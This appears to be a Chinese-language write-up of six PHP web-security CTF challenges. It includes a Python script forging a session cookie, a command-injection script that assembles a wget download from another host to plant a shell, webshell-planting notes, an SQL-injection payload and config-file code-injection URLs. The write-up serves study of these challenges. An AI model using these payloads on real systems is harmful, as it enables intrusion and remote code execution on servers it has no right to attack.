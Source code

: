 # trick 1
考察全局变量GLOBALS

# trick 2
简单的加密
分析一下可以知道我们获得了guest的加密内容以及随机值但不知道key值，而且我们要伪造system加密值

这里system 与 guest只差一个字符所以要爆破一下最后一个字符

```
import requests
import urllib
s = "guest"
s = "".join([chr(ord(i)+10) for i in s])
mid = "BH^IO"
mid = "".join([chr(ord(s[i])^ord(mid[i])) for i in range(5)])
print mid
s1 = "system"
# print s1[-1:]
s1 = "".join([chr(ord(i)+10) for i in s1])
last = s1[-1:]
dic = "1234567890abcdef"
ls = "".join([chr(ord(last)^ord(i)) for i in dic])
print ls

demo = "".join([chr(ord(s1[i])^ord(mid[i])) for i in range(5)])
for i in ls:
    print i
    user = ("WgEG"+demo+i).encode("base64")
    # print 
    cookie = {
    "user":urllib.quote(user)
        }
    re = requests.get("http://127.0.0.1/var/trick%202.php",cookies=cookie)
    print re.content

```

# trick 3
一道简单的代码审计，很明显是要种马

那我们可以随意输入的地方就是path参数
因为我们的输入都能打印出来

path是写入的路径 URL是获取的文件的路径 打印的是写入的路径 所以我们一次是是写不出shell的
首先将此文件写出去 然后利用path特性种马即可

# trick 4
这道题目本地复现的时候出现了很多问题，post传参方式不同也会影响结果
```
#!/usr/bin/python
# -*- coding: utf-8 -*-
import requests
def GetShell():
    s=requests.session()
    url = "http://192.168.43.165/ping.php"
    url1 = "http://192.168.60.128/web200-3/src/"
    header = {
        "Content-Type":"application/x-www-form-urlencoded"
    }
    data1={'username':'a','password[]':'a'}
    # s.post(url1,data=data1,headers=header)
    '''
    wget\\
    \ 19\\
    2.\\
    16\\
    8.\\
    60.\\
    12\\
    8\ \\
    1.php\ \\
    -O\ \\
    2.php
    '''
    fileNames = ["2.php", "-O\ \\\\", "1.php\ \\","8\ \\\\", "12\\\\", "60.\\\\", "8.\\\\", "16\\\\","2.\\\\", "\ 19\\\\", "wget\\\\"]
   # 多出的\只是为了充填，无论几个\都是一样的作用
    ip = "0.0.0.1%0a"
    for fileName in fileNames:
        createFileIp = ip + ">" + fileName
        print createFileIp
        data = "ip=" + createFileIp#这里不知道为什么普通的传参不行
        s.post(url, data=data,headers=header,)
    getShIp = ip + "ls%20-t>1"  #新生成的文件输入进1中
    print getShIp
    data = "ip=" + getShIp
    s.post(url, data=data,headers=header)
    getShellIp = ip + "sh%201" # 执行1这个脚本
    print getShellIp
    data = "ip=" + getShellIp
    s.post(url, data=data,headers=header)
if __name__ == "__main__":
    GetShell()
```

# trick 5
简单的加以分析，因为要注入pass中的值，而且pass被过滤所以利用order By来进行比较
但前提是要知道admin的值，所以利用`username='^1^1#&password=1`把用户名爆出来
下面就好写了

# trick 6
一个简单的配置文件写入问题
方法有很多种，但大多是要写两次

## 1
http://127.0.0.1/index.php?option=a';%0aphpinfo();//
http://127.0.0.1/index.php?option=a

## 2 利用 preg_replace函数的问题:
preg_replace函数在处理字符串的时候,会自动对第二个参数的 \ 这个字符进行反转移. 具体为啥要这样干,我也不太懂. 也就是说如果字符串是 \\\',经过 preg_replace()的处理,就变为 \\',单引号就逃出来了.
http://127.0.0.1/index.php?option=a\';phpinfo();//

## 3 preg_replace() 函数的第二个参数的问题
这个方法很巧秒
replacement中可以包含后向引用\n 或(php 4.0.4以上可用)$n，语法上首选后者。 每个 这样的引用将被匹配到的第n个捕获子组捕获到的文本替换。 n 可以是0-99，\0和$0代表完整的模式匹配文本。
http://127.0.0.1/test/ph.php?option=;phpinfo();
http://127.0.0.1/test/ph.php?option=%00 或者 http://127.0.0.1/test/ph.php?option=$0